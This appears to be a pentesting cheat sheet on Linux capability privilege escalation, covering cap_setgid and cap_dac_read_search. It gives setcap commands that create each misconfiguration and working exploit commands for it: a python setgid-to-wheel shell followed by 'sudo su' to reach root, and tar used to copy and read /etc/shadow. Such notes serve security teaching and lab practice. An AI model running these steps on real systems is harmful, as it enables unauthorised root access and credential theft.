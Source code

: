 #### Misconfiguring

```bash
setcap cap_setgid+ep /usr/bin/python3.9
```

#### Exploiting

- by this we are checking group by which we can have power e.g suod or wheel, shadow 
```bash
cat /etc/group
```
- as we see the wheel group which will give us sudo rights, now we know the `gid` of the group
```bash
wheel:x:10:
```

- by using the gid we are assigning ourselves that group 
```bash
python -c 'import os; os.setgid(10); os.system("/bin/bash")'
```

- cuz we have sudo rights, by the command we will be root
```bash
sudo su
```


>Also can read /etc/shadow file just change the group to shadow instead of wheel
___

## cap_dac_read_search

#### Misconfiguring

**tar**

```bash
setcap cap_dac_read_search+ep /usr/bin/tar
```

**python**

```
setcap cap_dac_read_search+ep /usr/bin/python3.9
```


#### Exploiting

Using this capability if we found in tar and python we can read the sensitive system files shown below

**tar**

```bash
tar -cvf shadow.tar /etc/shadow
```

```bash
tar -xvf shadow.tar
```
